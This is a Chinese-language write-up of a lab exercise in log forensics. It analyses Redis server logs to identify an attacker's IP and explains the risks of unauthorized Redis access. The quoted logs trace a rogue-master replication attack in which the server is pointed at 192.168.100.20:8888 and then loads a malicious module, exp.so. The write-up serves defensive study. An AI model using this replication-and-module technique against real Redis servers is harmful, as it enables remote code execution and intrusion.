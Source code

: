 ### Redis 日志分析攻击 IP

话不多说，直接上题（玄机靶场）

![](https://pic1.imgdb.cn/item/681d74d158cb8da5c8e7ba54.png)

Redis 服务器日志存放位置；（一般不会轻易修改）

```sh
logfile /var/log/redis/redis.log
```

Redis 版本号查询命令

```sh
redis-cli INFO | grep redis_version
```

![](https://pic1.imgdb.cn/item/681d80c358cb8da5c8e80d99.png)

对于 Redis 5.0.1，**未授权访问** 是最常见且可能性最大的漏洞，尤其是在 Redis 默认配置下没有设置密码的情况下。攻击者可以通过未授权访问执行以下操作：

1. **读取和修改数据**：攻击者可以读取 Redis 数据库中的所有数据，甚至可以删除或修改数据
2. **远程代码执行**：攻击者可以利用 `CONFIG` 命令修改配置文件来写入恶意代码，从而在目标服务器上执行任意代码
3. **持久化恶意代码**：通过修改 Redis 的持久化配置，攻击者可以在服务器重启时执行恶意操作

开始分析 Redis 日志

![](https://pic1.imgdb.cn/item/681d82de58cb8da5c8e80fa2.png)

Redis 的主从复制是用来实现数据冗余和提高可用性的一种机制

1. **从节点发送同步请求**：从节点通过发送 SYNC 或 PSYNC 命令请求与主节点同步数据

2. **全量同步**：如果从节点是首次同步或与主节点的复制偏移量不匹配，主节点会执行 BGSAVE 命令创建一个 RDB 文件，并将其发送给从节点。从节点接收 RDB 文件并加载到内存中

3. **增量同步**：在全量同步之后，主节点会将其缓冲区中的写命令持续发送给从节点，以保证数据一致性

这里多次尝试连接 `192.168.100.13:8888`，但都被拒绝（Connection refused）

```sh
419:S 31 Jul 2023 05:34:00.715 * MASTER <-> REPLICA sync started  
419:S 31 Jul 2023 05:34:00.715 # Error condition on socket for SYNC: Connection refused  
419:S 31 Jul 2023 05:34:01.717 * Connecting to MASTER 192.168.100.13:8888  
419:S 31 Jul 2023 05:34:01.717 * MASTER <-> REPLICA sync started  
419:S 31 Jul 2023 05:34:01.718 # Error condition on socket for SYNC: Connection refused
```

切换到另一个主节点 `192.168.31.55:8888`

```sh
419:S 31 Jul 2023 05:34:03.034 * REPLICAOF 192.168.31.55:8888 enabled (user request from 'id=5 addr=192.168.200.2:64319 fd=7 name= age=0 idle=0 flags=N db=0 sub=0 psub=0 multi=-1 qbuf=47 qbuf-free=32721 obl=0 oll=0 omem=0 events=r cmd=slaveof')
```

从这部分日志中，可以看到与 `192.168.100.20` 成功建立连接并进行同步

尽管尝试加载同步数据时出现错误，但连接和同步过程已经开始，这意味着攻击者已经能够通过这种连接尝试植入恶意代码或进一步操控系统

```sh
419:S 31 Jul 2023 05:34:33.786 * Connecting to MASTER 192.168.100.20:8888  
419:S 31 Jul 2023 05:34:33.786 * MASTER <-> REPLICA sync started  
419:S 31 Jul 2023 05:34:33.788 * Non blocking connect for SYNC fired the event.  
419:S 31 Jul 2023 05:34:35.192 * Master replied to PING, replication can continue...  
419:S 31 Jul 2023 05:34:35.194 * Trying a partial resynchronization (request 7a73a1a4297a16c50d8465b0cc432444f0e5df71:1).  
419:S 31 Jul 2023 05:34:35.195 * Full resync from master: ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ:1  
419:S 31 Jul 2023 05:34:35.195 * Discarding previously cached master state.  
419:S 31 Jul 2023 05:34:35.195 * MASTER <-> REPLICA sync: receiving 48040 bytes from master  
419:S 31 Jul 2023 05:34:35.197 * MASTER <-> REPLICA sync: Flushing old data  
419:S 31 Jul 2023 05:34:35.197 * MASTER <-> REPLICA sync: Loading DB in memory  
419:S 31 Jul 2023 05:34:35.197 # Wrong signature trying to load DB from file  
419:S 31 Jul 2023 05:34:35.197 # Failed trying to load the MASTER synchronization DB from disk
```

最后，从日志中可以看到恶意模块 `exp.so` 被成功加载，这通常是黑客用来执行进一步攻击的手段

```sh
419:S 31 Jul 2023 05:34:37.205 * Module 'system' loaded from ./exp.so
```

黑客通过多次尝试，最终成功将从节点配置为复制 `192.168.100.20:8888`，并通过该连接植入了恶意模块

这表明，IP 地址 `192.168.100.20` 是黑客成功攻击的目标